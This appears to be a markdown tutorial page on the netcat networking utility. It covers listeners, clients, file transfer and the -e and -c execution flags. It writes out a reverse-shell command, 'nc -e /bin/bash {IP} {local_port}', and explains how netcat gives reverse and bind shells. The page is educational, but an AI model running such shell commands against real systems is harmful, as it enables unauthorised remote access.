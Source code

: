 ```yaml
---
title: "Netcat"
tags:
- network
- TCP connection
- remote shell
- bind shell
categories:
- tools
toc: true
toc_sticky: true
og_image: /assets/images/netcat/logo.jpg
---
```

![Domain](/assets/images/netcat/logo.jpg)

## Introduction
netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP.

It is generally used to test network connectivity on certain ports, or for reverse/bind shells.

## netcat as a server
Netcat can be used to start a server by telling it to listen on a certain port. By default, netcat server only allows a single client connection.

Command to tell nc to listen on a certain port:
```
$ nc -nlvp 65000
listening on [any] 65000 ...
```

`-n`: Use of this option means that hostname and port arguments are restricted to numeric values.

`-l`: Listen for an incoming connection rather than initiate a connection to a remote host.

`-v`: verbose output

`-p`: specify port on which to listen to

Whenever a client attempts connection to the port listened by netcat, following log can be seen:
```
$ nc -nlvp 65000
listening on [any] 65000 ...

connect to [127.0.0.1] from localhost [127.0.0.1] 37518
```

## netcat as a client
```
nc localhost 65000
```
When running the above command, netcat will try and connect to the host (which is `localhost` in this case) and port(which is `65000` in this case) specified. 

At this point, a TCP connection(default unless specified to establish UDP connection with `-u` flag) has been established between the client with some random temporal port and the local server with port 65000. 

**Whatever standard input that we give here, is `echo`ed in the server and vice-versa**.

Client side:
```
nc localhost 65000
Hello world!
```

Server side:
```
$ nc -nlvp 65000
listening on [any] 65000 ...

connect to [127.0.0.1] from localhost [127.0.0.1] 37518
Hello world!
```
## File transfer using netcat
We can use input redirection on server side instead of writing on the standard input and this can be used to transfer file as:
```
$ nc -lvnp 4444 < dirty_cow.c
listening on [any] 4444 ...
```
Whenever a client connects to it, they get the file as:
```
$ nc {host} 4444 > dirty_cow.c
```
We can also use input redirection on client side as:
```
$ cat hello.txt
Hello world!
$ nc localhost 65000 < hello.txt 
```
The contents of the file `hello.txt` gets echoed on the server side.

## netcat `-w` flag
By default, the connection is persisted infinitely unless the nc process is stopped either in the client side or on the server side. However, `-w` flag can be specified with the `{timeout_seconds}` which terminates the connection after that.

So, in case of listening,
```
nc -nlvp 65000 -w 40
```
will wait for connection initiation from clients until 40 seconds and if none are received, netcat stops listening:
```
nc -nlvp 65000 -w 40
no connection : Connection timed out
```
*Note: If the connection is initiated by the client within the timeout, the connection persists.*

## netcat `-e` flag
By default, netcat simply echoes whatever has been given to the standard input. However, we can tell netcat to execute certain files on the other side using `-e` flag.

>  `-e` {filename}:  specify  filename  to exec after connect (use with caution).\
                    See the -c option for enhanced functionality.

```
nc -e /bin/bash {IP} {local_port}
```
By default, the executable file is `echo` . But now, we have specified the file to be `/bin/bash`. So, when the connection establishes, the file is executed in the client. However, the output of the command is `echo`ed on the server side. And whatever command we write in the nc server gets executed in nc client bash shell.

![](/assets/images/netcat/netcat_-e_flag.PNG)

*Note: Only **stdout** is `echo`ed on the server side. If there are any errors(**stderr**), they are printed on the client itself.*
![](/assets/images/netcat/netcat-stderr.PNG)


Similarly, we can also execute files in the server from client:

![](/assets/images/netcat/netcat_-e_flag_2.PNG)

**So, from the server we can execute commands on the client and vice-versa! This is how reverse shell and bind shell using netcat works.**


## netcat `-c` flag

>   `-c` {string}:  specify shell commands to exec after connect (use with  cau‐\
                    tion).   The  string  is passed to /bin/sh -c for execution.\
                    See the -e option if you don't have a working /bin/sh  (Note\
                    that POSIX-conformant system must have one).

![](/assets/images/netcat/netcat_-c_flag.PNG)